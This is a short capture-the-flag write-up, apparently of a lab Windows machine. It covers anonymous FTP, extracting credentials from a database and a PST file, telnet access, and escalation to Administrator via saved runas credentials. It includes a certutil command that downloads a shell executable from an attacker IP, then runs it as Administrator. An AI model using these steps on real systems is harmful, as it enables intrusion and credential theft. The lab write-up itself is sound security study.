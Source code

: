Started with a nmap scan
```
21 FTPD
23 Telnet
80 IIS 7.5
```
Looking at the FTP it has anonymous login and there are 2 files on the server a backup that is a microsoft database and a zip folder called `access control.zip` looking at the database first we can use `mdb-tools` to look at it `mdb-tables backup.mdb` will show all the tables after looking at alot of the tables we got one with creds in it `mdb-export backup.mdb auth_user` and we got creds for a `engineer` account password `access4u@security` and we can unzip the zip folder `7z x access control.zip` and we get a another file `access control.pst` to read this file and extract it `readpst access control.pst` and now its in a format we can read and there is creds in this file `security:4Cc3ssC0ntr0ller` and we can use telnet to login we can get the user flag looking around the public desktop folder has a `.lnk` file if we run `type name of lnk file` we can see it is running `runas.exe` with the `/savecred` and we can verify this as `cmdkey /list` now we need to make a shell and get it onto the host system `certutil -urlcache -split -f "http://10.10.16.4/shell.exe" shell.exe` and then we can run it with the runas command `runas /savecred /user:ACESS\Administrator shell.exe` and now we are the admin account 